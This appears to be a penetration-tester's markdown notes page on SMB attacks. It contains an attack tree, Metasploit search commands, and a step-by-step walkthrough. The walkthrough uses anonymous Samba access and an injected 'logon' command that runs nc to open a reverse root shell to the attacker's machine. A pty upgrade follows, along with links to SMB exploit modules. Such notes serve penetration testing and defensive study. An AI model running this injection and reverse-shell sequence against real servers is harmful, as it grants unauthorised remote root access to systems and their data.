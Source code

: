 # SMB exploits

## Attack tree

```text
1 Scan target machine and check for open SMB port
2 Recon
    2.1 Use SMB client and check for anonymous access
    2.2 Detect version
    2.3 Identify possible exploits
3 Exploit 
```

## Example

```text
msf > search smb
msf > search scanner name:smb
msf > search exploit name:smb -S excellent
```

### Lucky trail

```text
# smbclient -L <IP address samba server>
```

Password is nothing, just hit enter.

If a `tmp` directory exixts and there is anonymous access, use `nc` for starting a listener:

```text
# nc -lvp 7777
```

Open a new terminal and access the `tmp` directory on the samba server directly:

```text
# smbclient //<IP address samba server>/tmp
```

In `smb\ :>` type `help` to check the logon command is available. If it is, make the reverse connection:

```text
smb\ :> logon "/=`nc <IP address hack machine> 7777 -e /bin/bash`"
```

In the listener terminal the reverse connection appears. Take the terminal view from the shell in the terminal:

```text
# python -c "import pty;pty.spawn(‘/bin/bash’);"
```

Root.

## Notes

Server Message Block (SMB) is the file-sharing protocol for Microsoft networks. SMB uses TCP port 139 (NetBIOS) and TCP port 445.

SMB vulnerabilities have been around for 20+ years. In general, most SMB attacks do not occur because there are no 
expensive tools or applications protecting it, but rather because there was a failure to implement best practices 
surrounding SMB.

There may even still be SMB file systems that are shared out to everyone on the network and have little to no 
configuration against remote attacks, in which case the above example may work. If that does not work, check version, 
check exploit database, and fire up Metasploit.

For example, certain releases of Samba contain a vulnerability in the LSA RPC service that, if exploited, 
can trigger a heap overflow and allow an unprivileged user to execute arbitrary code on the system as the root user.

In 2017, EternalBlue used an exploit used against a vulnerability in SMB v1.0. Among the malware that used the 
EternalBlue exploit were WannaCry and Emotet, both of which can self-propagate. And as new threats appear, they 
are most likely to continue to use similar attack techniques to exploit a system or network. The recent SolarWinds 
attack exploited the SMB protocol too.

## Tools

* [Samba SetInformationPolicy AuditEventsInfo Heap Overflow](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/linux/samba/setinfopolicy_heap)
* [MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/smb/ms17_010_eternalblue)
* [MS10-061 Microsoft Print Spooler Service Impersonation Vulnerability](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/smb/ms10_061_spoolss)